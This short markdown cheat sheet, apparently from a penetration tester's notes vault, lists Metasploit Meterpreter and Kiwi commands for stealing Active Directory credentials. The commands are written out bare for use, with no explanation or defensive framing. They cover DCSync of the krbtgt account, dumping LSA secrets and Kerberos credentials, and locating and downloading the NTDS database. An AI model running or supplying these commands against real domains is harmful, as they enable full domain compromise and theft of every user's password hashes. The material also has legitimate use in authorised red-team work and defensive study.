 # Metasploit

## 01 - DC Synchronization

### 1.1 - Kiwi

```
meterpreter > dcsync krbtgt

meterpreter > dcsync_ntlm krbtgt
```

## 02 - LSASS Injection

### 2.1 - Kiwi

`meterpreter > lsa_dump_secrets`

## 03 - Kerberos

### 3.1 - Kiwi

`meterpreter > creds_kerberos`

## 04 - NTDS

### 4.1 - Meterpreter API Commands

```
meterpreter > reg enumkey [-r <domain_controller_IP>] -k HKLM\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters -v "DSA Database file"
```

### 4.2 - Post Module

```
meterpreter > run post/windows/gather/ntds_location

meterpreter > run post/windows/gather/ntds_grabber cleanup=true download=true
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/07 - File Transfer and Data Exfiltration/Windows/Archive Files|Windows Archive Files]]